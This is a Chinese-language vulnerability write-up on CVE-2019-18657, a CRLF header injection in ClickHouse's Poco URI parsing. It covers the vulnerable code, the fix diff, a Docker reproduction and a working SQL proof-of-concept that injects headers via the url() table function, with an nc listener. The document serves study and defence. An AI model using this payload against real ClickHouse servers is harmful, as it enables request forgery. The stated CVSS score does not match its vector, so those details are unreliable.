


# CVE-2019-18657 CWE-74 ClickHouse HTTP 标头注入

## 漏洞背景

- **ClickHouse ：**一个开源的列式数据库管理系统，专为在线分析处理（OLAP）场景设计，能够高效地处理大规模的数据查询和分析任务。它提供了高性能的数据压缩和并行计算能力，支持大规模数据集的快速查询和实时分析。ClickHouse 的架构支持分布式计算，使其能够扩展到多个节点，并在大数据环境中提供高可用性和容错性。由于其快速的查询性能和可伸缩性，ClickHouse 在处理大数据分析、日志分析、数据仓库等应用场景中表现出色。

## 漏洞原理

ClickHouse 在 19.13.5.44 版本之前使用的 poco 模块中，`URI::parse` 函数未对 URI 中的非法字符进行严格验证和处理，特别是在清理过程中直接删除不可打印字符和空格，而没有抛出错误或进行有效的检查。这样，攻击者可以通过构造带有恶意或非法字符的 URI（如控制字符或不规范的 `scheme`），绕过正常的 URI 解析过程，可能导致错误的解析结果或未预期的行为，进而引发安全问题，如信息泄露、请求伪造等。

## 漏洞定位

[poco/Foundation/src/URI.cpp at 7ad953ed6678918e036c1b9f17d51f89a8a134f1 · ClickHouse/poco](https://github.com/ClickHouse/poco/blob/7ad953ed6678918e036c1b9f17d51f89a8a134f1/Foundation/src/URI.cpp)

在 Foundation/src/URI.cpp 文件，第 720 行`URI::parse`函数。

在第 723 行，试图通过移除所有不可打印字符（包括空格）来清理输入的 URI 字符串。使用了 `std::remove_if` 来删除不符合要求的字符，之后继续解析 URI。但是它在处理 URI 时会默默地删除不合适的字符，而不是直接报告错误。虽然空格在 URI 中是非法的，但一些字符（例如 `%20` 表示空格）是合法的。因此，这种简单的删除方法会导致 URI 中合法的字符被删除，从而破坏 URI 的结构。攻击者可以利用输入包含非法字符的 URI，通过删除这些字符绕过某些安全检查或输入验证，使得 URI 被错误地解析或执行恶意操作。

```cpp
// URI.cpp 文件，第 720 行
void URI::parse(const std::string& uriToParse)
{
	std::string uri(uriToParse);
    // ********** 723 行 **********
	uri.erase(std::remove_if(uri.begin(), uri.end(), [](int ch) {
		return !std::isprint(ch) or ch == ' ';
	}), uri.end());

	std::string::const_iterator it  = uri.begin();
	std::string::const_iterator end = uri.end();
	if (it == end) return;
	if (*it != '/' && *it != '.' && *it != '?' && *it != '#')
	{
		std::string scheme;
		while (it != end && *it != ':' && *it != '?' && *it != '#' && *it != '/') scheme += *it++;
		if (it != end && *it == ':')
		{
			++it;
			if (it == end) throw URISyntaxException("URI scheme must be followed by authority or path", uri);
			setScheme(scheme);
			if (*it == '/')
			{
				++it;
				if (it != end && *it == '/')
				{
					++it;
					parseAuthority(it, end);
				}
				else --it;
			}
			parsePathEtc(it, end);
		}
		else
		{
			it = uri.begin();
			parsePathEtc(it, end);
		}
	}
	else parsePathEtc(it, end);
}
```

## 漏洞修复

修改了 `parse` 函数的行为：遍历 URI 中的每个字符，如果字符是控制字符（`std::iscntrl(ch)`) 或空格（`ch == ' '`），则抛出 `URISyntaxException` 异常，并指出 URI 包含无效字符。

```diff
diff --git a/Foundation/src/URI.cpp b/Foundation/src/URI.cpp
index 278d4bef9d..ac916bbc2e 100644
--- a/Foundation/src/URI.cpp
+++ b/Foundation/src/URI.cpp
@@ -717,12 +717,12 @@ unsigned short URI::getWellKnownPort() const
 }
 
 
-void URI::parse(const std::string& uriToParse)
+void URI::parse(const std::string& uri)
 {
-	std::string uri(uriToParse);
-	uri.erase(std::remove_if(uri.begin(), uri.end(), [](int ch) {
-		return !std::isprint(ch) or ch == ' ';
-	}), uri.end());
+	std::for_each(uri.begin(), uri.end(), [] (char const &ch) {
+		if (std::iscntrl(ch) or ch == ' ')
+			throw URISyntaxException("URI contains invalid characters");
+	});
 
 	std::string::const_iterator it  = uri.begin();
 	std::string::const_iterator end = uri.end();
```

## 影响范围

ClickHouse

- x excluding to 19.13.5.44

## **环境搭建**

启动 Docker 环境，ClickHouse 版本为 19.13.4.32

```txt
NIST:NVD   Base Score:5.3 MEDIUM   Vector:CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H
```

```txt
cpe:2.3:a:clickhouse:clickhouse:19.13.4.32:*:*:*:*:*:*:*
```



## 漏洞复现

1. 在本机使用 nc 命令监听 1337 端口

   ```bash
   nc -lvp 1337
   ```

2. 进入容器命令行，连接 ClickHouse

   ```bash
   docker exec -it clickhouse-19.13.4.32 clickhouse-client
   ```

3. 执行 PoC 语句，本机 IP 为 192.168.233.153

   ```sql
   SELECT * FROM url('http://192.168.233.153:1337/? HTTP/1.1\r\nTest: test', CSV, 'column1 String');
   ```

4. 可以看到监听端口返回了一个不符合常规 HTTP 请求格式的头部`Test: test HTTP/1.1`，而这个就是 PoC 中伪造的 HTTP 请求头

   

## PoC分析

```sql
SELECT * FROM url('http://192.168.233.153:1337/? HTTP/1.1\r\nTest: test', CSV, 'column1 String');
```

`url` 是 ClickHouse 中的一个特殊表函数，用来从指定的 URL 获取数据并将其作为表进行查询。

`'http://127.0.0.1:1337/? HTTP/1.1\r\nTest: test'` 是传递给 `url` 函数的 URL。

- `http://127.0.0.1:1337/` 是目标服务器的地址，它指向本地服务器 `127.0.0.1` 的 1337 端口。
- `?` 是 URL 的查询参数开始部分。它没有提供具体的参数，可能是用于测试或者触发服务的某种行为。
- `HTTP/1.1\r\nTest: test` 是在 URL 查询参数后直接注入的 HTTP 请求头部内容。但`HTTP/1.1\r\nTest: test` 这一部分并非标准的 URL 查询参数，而是通过注入 HTTP 请求头（`Test: test`）来绕过 URL 格式的常规规范。

正常的 URL 查询部分应当仅限于 URL 中的参数，但这里却通过 URL 向 HTTP 请求头部注入了 `HTTP/1.1\r\nTest: test`，试图让服务器处理一个包含自定义 HTTP 头的请求。如果 ClickHouse 未能正确验证和清理这些头部内容，它可能会允许恶意头部的注入，从而造成如伪造请求、跨站请求伪造（CSRF）、信息泄露等攻击。

## 参考链接

https://nvd.nist.gov/vuln/detail/CVE-2019-18657

[Check bad URIs in Poco library by alexey-milovidov · Pull Request #6466 · ClickHouse/ClickHouse](https://github.com/ClickHouse/ClickHouse/pull/6466)

[Throw error if URI contains illegal characters · ClickHouse/poco@0b27b94](https://github.com/ClickHouse/poco/commit/0b27b94488562dd24982b6220141d81c2b96856e)

[Added a test for bad URIs by alexey-milovidov · Pull Request #6493 · ClickHouse/ClickHouse](https://github.com/ClickHouse/ClickHouse/pull/6493/files)
